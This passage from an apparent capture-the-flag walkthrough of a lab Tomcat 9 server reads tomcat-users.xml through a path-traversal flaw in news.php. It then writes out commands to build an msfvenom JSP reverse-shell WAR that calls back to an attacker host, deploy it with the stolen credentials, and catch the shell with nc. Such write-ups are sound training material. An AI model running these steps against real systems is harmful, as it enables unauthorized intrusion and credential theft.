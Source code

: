 We can also enumerate the version of `Tomcat` based on this page: version 9. The credentials for this version should be located at the file path `/usr/share/tomcat9/etc/tomcat-users.xml`. This would be a great opportunity to go back to our potential LFI vulnerability at the `10.10.10.194/news.php?file=statement` page and see if we can retrieve this file.

We'll capture the request to this page with Burp Suite so we can easily manipulate the `file` parameter. To traverse to a specific file, we'll have to go back multiple directories with `../../` to get the root directory, then we can specify our full target file path. We have to do it quite a bit since we're not sure where our current directory is. To avoid any misinterpretations with the slashes, we need to URL encode them. Let's replace the `statement` variable with our encoded traversal and the full file path to the file we're trying to retrieve.

Let's send our request.

![](images/burp-dt.png)

Success, we receive the file in our response.

Additionally, we also see the roles that the `tomcat` user has. The `manager-script` role allows us to remotely deploy web archive (WAR) files to the webserver, with our new found credentials.

First, we need to create a malicious WAR file. To do this, we'll use `msfvenom`.

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.121 LPORT=4444 -f war > evil.war
```

Next, we'll use curl to upload our file, utilizing the credentials we found.

```
$ curl  --upload-file evil.war http://tomcat:\$3cureP4s5w0rd123\!@10.10.10.194:8080/manager/text/deploy?path=/evil
```

Let's start our listener in preparation for a reverse shell.

```
$ nc -lvnp 4444
```

Finally, navigating to `http://10.10.10.194:8080/evil/` triggers our payload, and we receive a reverse shell. We'll also make our shell a little more interactive.
